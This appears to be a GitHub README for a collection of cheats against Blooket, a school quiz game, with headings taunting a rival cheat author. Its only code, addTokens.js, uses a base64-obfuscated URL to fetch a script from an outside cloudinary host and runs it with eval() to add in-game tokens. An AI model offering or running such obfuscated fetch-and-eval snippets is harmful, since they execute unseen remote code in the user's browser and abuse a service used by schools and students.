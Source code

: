 # Blooket-hack-after-glixzzy
glixzzy stop making profit off school cheats



# Here are the big juicy hecks collection
shut nothing here yet
## <a id="addTokens.js"></a>addTokens.js
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbEFkZFRva2Vucy5qcw==')).then((res) => res.text().then((t) => eval(t)))
```
